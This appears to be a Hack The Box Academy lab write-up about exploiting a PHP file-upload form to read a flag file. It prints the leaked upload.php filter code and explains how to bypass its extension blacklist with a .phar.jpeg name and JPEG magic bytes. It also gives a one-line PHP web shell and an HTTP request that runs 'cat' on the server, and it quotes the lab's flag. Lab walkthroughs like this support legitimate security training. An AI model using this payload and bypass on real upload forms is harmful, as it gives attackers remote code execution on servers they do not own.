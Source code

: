 #  Try to exploit the upload form to read the flag found at the root directory "/".
IP : 83.136.252.13:58188
- Try to fuzz for non-blacklisted extensions, and for allowed content-type headers. If you are unable to locate the uploaded files,
try to read the source code to find the uploads directory and the naming scheme.

We can see the can upload the image.
Fist we upload the payload xml for see the upload.php code:

![payload](../Img/xmlskillpay.png)

we must  decode the in cyberchef:

```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}


```
For get the url u must to see the php code and get the date of the day:
/250411_shell...

After that we must to see how can we get the extension for the file using the intruder:
Create the file ./shell.phar.jpeg and with the tool monaspad paste the payload:

```sh
AAAA
<?php echo system($_GET["cmd"]);?>
```
After that we must to change the hex decimal for pass, 4 couple of digits:
FOr change the hex:
`FF D8 FF DB`

Now we can upload the the file shell.phar.jpeg
![Payload](../Img/patloaddfileupload.png)

flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
```js
GET /contact/user_feedback_submissions/250411_shell.phar.jpeg?cmd=cat%20../../../../../flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt HTTP/1.1
Host: 94.237.53.203:42898
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
Then we can get the cmd uploaded and then
![Flag](../Img/flagskillfile.png)
Reponse:
HTB{m4573r1ng_upl04d_3xpl0174710n}
HTB{m4573r1ng_upl04d_3xpl0174710n}
https://academy.hackthebox.com/achievement/349590/136
